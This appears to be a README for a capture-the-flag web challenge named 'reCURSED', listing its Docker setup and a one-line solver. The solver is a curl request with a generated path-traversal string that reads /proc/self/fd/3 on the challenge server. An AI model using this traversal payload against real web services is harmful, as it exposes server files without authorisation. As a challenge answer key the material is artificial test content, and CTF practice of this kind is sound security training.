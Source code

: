 # reCURSED

Author: xhalyl

## Description

![Description](./Description.gif)

## Requirements

- Docker: [Dockerfile](./challenge/Dockerfile)
- docker-compose: [docker-compose](./challenge/docker-compose.yml)

## Sources
  (Public Sources)
- [challenge](./challenge)

## Solver
`curl http://challenge.site/?image=$(python -c "print('..'*986+'/'*986+'..'*986+'/'*986)")proc/self/fd/3 `